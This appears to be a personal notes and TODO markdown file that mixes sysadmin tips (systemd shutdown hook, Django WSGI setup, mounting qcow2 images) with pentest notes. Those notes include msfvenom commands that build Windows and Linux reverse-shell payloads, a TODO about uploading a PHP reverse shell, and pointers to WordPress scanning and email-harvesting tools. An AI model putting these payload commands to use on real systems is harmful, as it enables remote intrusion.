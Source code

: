 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

TODO - track cura bug issue
TODO - execute script on shutdown 
       so far:
       service in /usr/lib/systemd/system-shutdown/clean_gnome_home.shutdown
       script in /bin/clean_home
TODO - Kioku: Rename 'Shell' skill to Bash and create a new Shell skill with cmnd line utilities
TODO - check what I got in store PHP wise @ root (with PsySH)
TODO - for Python relevant stuff make a Notebook rather than a .md file (Python.md)
TODO - Upload PHP reverse shell onto (own) webserver

## Django Docker
1. define relative WSGIPythonPath to django project -> see django-apache2-docker/demo_site.conf
2. Add wsgi.py file in demo_site/demo_site/ & link to demo_site.settings
3. Add WSGI_APPLICATION = 'demo_site.wsgi.application' in demo_site/demo_site/settings.py
4. Enjoy?


## BSS section
containing statically-allocated variables

## Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

## CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

## FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

### Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt


